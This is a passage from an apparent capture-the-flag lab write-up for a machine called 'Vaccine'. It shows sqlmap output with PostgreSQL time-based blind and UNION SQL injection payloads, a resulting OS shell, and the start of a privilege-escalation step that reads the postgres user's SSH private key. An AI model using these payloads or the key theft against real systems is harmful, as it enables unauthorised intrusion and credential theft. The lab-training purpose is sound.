 ```bash
    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=XXX' AND 2951=(SELECT 2951 FROM PG_SLEEP(5))-- wkGg

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=XXX' UNION ALL SELECT NULL,NULL,NULL,NULL,(CHR(113)||CHR(113)||CHR(107)||CHR(106)||CHR(113))||(CHR(99)||CHR(66)||CHR(74)||CHR(81)||CHR(97)||CHR(104)||CHR(86)||CHR(117)||CHR(75)||CHR(76)||CHR(66)||CHR(103)||CHR(120)||CHR(76)||CHR(66)||CHR(118)||CHR(101)||CHR(90)||CHR(87)||CHR(106)||CHR(79)||CHR(122)||CHR(87)||CHR(74)||CHR(99)||CHR(107)||CHR(118)||CHR(79)||CHR(76)||CHR(106)||CHR(120)||CHR(104)||CHR(80)||CHR(107)||CHR(73)||CHR(97)||CHR(116)||CHR(99)||CHR(73)||CHR(87))||(CHR(113)||CHR(98)||CHR(112)||CHR(122)||CHR(113))-- mbuE
---
[03:06:53] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL

os-shell> which bash
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: '/usr/bin/bash'
```

### get a shell

![image-20231122092857829](./Vaccine.assets/image-20231122092857829.png)

## Privilege Escalation

### ssh -> postgres

- collect private key of ssh, connect remote machine with ssh to get a better shell

```bash
# remote
postgres@vaccine:/var/lib/postgresql/.ssh$ cat id_rsa
```
